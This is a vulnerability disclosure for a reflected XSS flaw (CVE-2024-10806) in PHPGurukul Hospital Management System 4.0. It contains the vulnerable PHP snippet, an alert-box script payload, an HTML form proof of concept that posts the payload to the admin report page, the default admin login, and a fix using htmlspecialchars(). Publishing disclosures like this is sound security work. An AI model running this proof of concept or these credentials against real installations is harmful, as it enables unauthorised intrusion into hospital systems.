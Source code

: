 # CVE-2024-10806 - [XSS vulnerability] found in Hospital Management System (HMS) 4.0 - (betweendates-detailsreports.php)

Affected Project: **Hospital Management System (HMS)**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/hospital-management-system-in-php/)

Version: 4.0

Updated: 16 May 2024

Vulnerable path/file: `hms/admin/betweendates-detailsreports.php`

Injection parameter: `fromdate` , `todate`

<br />

Size: 16.7 MB

Sha256: 705263fd0533fde4c8c4d332bf943ea66de98645262cc896f415c897e824455a

<br />

## Vulnerability Description:
The parameters $fdate and $tdate are vulnerable to XSS because they accept user input from the $_POST array and output it directly to the page without any form of sanitization or encoding. This means that if a user submits HTML or JavaScript code within these fields, it will be rendered directly in the HTML output, executing any embedded JavaScript.
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
$fdate=$_POST['fromdate'];
$tdate=$_POST['todate'];

?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate?> to <?php echo $tdate?></h5>
```

<br />

## Injection Payload Tested:

We need to set the `fromdate` and `todate` to:
```
<script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a `POST` request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `betweendates-detailsreports.php` looks like:

<br />

![betweendates-detailsreports.php](https://i.postimg.cc/HnXLvmhw/1.png)

<br />

As it is a `POST` request we need to use a file `test.html` with the following content to be able to trigger the XSS popup:

```
<form method="POST" action="http://localhost/hospital/hms/admin/betweendates-detailsreports.php">
    <input type="text" name="fromdate" value="<script>alert('XSS')</script>">
    <input type="text" name="todate" value="<script>alert('XSS')</script>">
    <input type="submit" value="Submit">
 </form>
```

<br />

Then we have to open it on the browser:

For example: `file:///C:/Users/Testpc/Desktop/test.html/test.html`

<br />

![file](https://i.postimg.cc/T2gY6Rtm/2.png)

<br />

Before submitting the POST request we must be logged in:

Default login info:

Url: `http://localhost/hospital/hms/admin/index.php`

Username: `admin`
Password: `Test@12345`

After submitting the payload using POST with the vulnerable parameters `fromdate` and `todate` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

![xss](https://i.postimg.cc/B6fkcG29/3.png)

then we need to click `OK` so the next POST request executed and XSS triggered.

![xss2](https://i.postimg.cc/5N2GmgQ0/4.png)


## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
$fdate = htmlspecialchars($_POST['fromdate'], ENT_QUOTES, 'UTF-8');
$tdate = htmlspecialchars($_POST['todate'], ENT_QUOTES, 'UTF-8');
?>
<h5 align="center" style="color:blue">Report from <?php echo $fdate ?> to <?php echo $tdate ?></h5>

```

<br />

> One Click Can Change Everything: Be Secure.
